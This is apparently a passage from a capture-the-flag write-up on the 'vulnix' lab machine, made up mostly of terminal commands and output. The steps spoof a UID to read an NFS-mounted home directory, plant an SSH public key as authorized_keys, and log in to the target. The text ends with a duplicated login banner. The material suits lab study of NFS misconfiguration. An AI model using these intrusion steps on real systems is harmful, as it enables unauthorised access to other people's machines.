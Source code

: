 ```
 user@vulnix:/home$ id vulnix
 uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
 user@vulnix:/home$ exit
 logout
 ┌─[root@Dasagreeva]─[~]
 └──╼#useradd -u 2008 vulnix
 ┌─[root@Dasagreeva]─[~]
 └──╼# mkdir /tmp/mnt
 ┌─[root@Dasagreeva]─[~]
 └──╼# mount -t nfs 192.168.56.10:/home/vulnix /tmp/mnt -nolock
 ┌─[root@Dasagreeva]─[~]
 └──╼# cd /tmp/mnt
 bash: cd: /tmp/mnt: Permission denied
 ┌─[root@Dasagreeva]─[~]
 └──╼# su vulnix
 $ id
 uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
 $ cd /tmp/mnt
 $ ls
 $ ls -al
 total 20
 drwxr-x — — 2 vulnix vulnix 4096 Sep 2 2012 .
 drwxrwxrwt 12 root root 4096 Oct 31 00:03 ..
 -rw-r — r — 1 vulnix vulnix 220 Apr 3 2012 .bash_logout
 -rw-r — r — 1 vulnix vulnix 3486 Apr 3 2012 .bashrc
 -rw-r — r — 1 vulnix vulnix 675 Apr 3 2012 .profile
 $
```

Let’s generate keys for SSH so we can login into vulnix!

Steps:

1.  Create ssh key pair by running ssh-keygen.
2.  Create .ssh directory on the mounted share /home/vulnix/.ssh
3.  Copy the content of the public key to /home/vulnix/.ssh.
4.  SSH into vulnix@\_victim_ip_!

We create a pair of keys on the /root/.ssh . Now we transfer the public key on the /tmp/mnt/home/.ssh and place it there only and rename it the authorized_keys.  
Now call ssh connection for the vulnix@192.168.56.10

```
 ┌─[root@Dasagreeva]─[~]
 └──╼#ssh -i id_rsa vulnix@192.168.56.10
 Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0–29-generic-pae i686) * Documentation: <ins>https://help.ubuntu.com/</ins> System information as of Mon Oct 31 04:09:44 GMT 2016 System load: 0.0 Processes: 89
 Usage of /: 93.3% of 773MB Users logged in: 0
 Memory usage: 13% IP address for eth0: 192.168.1.72
 Swap usage: 0% => / is using 93.3% of 773MB Graph this data and manage this system at https://landscape.canonical.com/ New release ‘14.04.5 LTS’ available.
 Run ‘do-release-upgrade' to upgrade to it. The programs included with the Ubuntu system are free software;
 the exact distribution terms for each program are described in the
 individual files in /usr/share/doc/*/copyright. Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
 applicable law.vulnix@vulnix:~$ ┌─[root@Dasagreeva]─[~]
 └──╼#ssh -i id_rsa vulnix@192.168.56.10
 Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0–29-generic-pae i686)* Documentation: <ins>https://help.ubuntu.com/</ins>System information as of Mon Oct 31 04:09:44 GMT 2016System load: 0.0 Processes: 89
 Usage of /: 93.3% of 773MB Users logged in: 0
 Memory usage: 13% IP address for eth0: 192.168.1.72
```
